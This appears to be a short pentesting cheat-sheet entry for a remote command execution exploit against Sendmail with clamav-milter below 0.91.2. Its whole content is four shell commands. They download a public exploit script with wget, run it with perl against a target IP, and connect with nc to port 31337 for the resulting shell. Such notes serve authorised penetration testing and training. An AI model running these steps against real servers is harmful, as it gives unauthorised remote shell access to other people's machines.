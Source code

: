 ```yaml
---
description: Sendmail with clamav-milter < 0.91.2 - Remote Command Execution
---
```


# Sendmail ClamAV

{% embed url="https://www.exploit-db.com/exploits/4761" %}

```
$ wget https://www.exploit-db.com/raw/4761
$ mv 4761 black-hole.pl
$ perl black-hole.pl 192.168.1.2
$ nc -v 192.168.1.2 31337
```
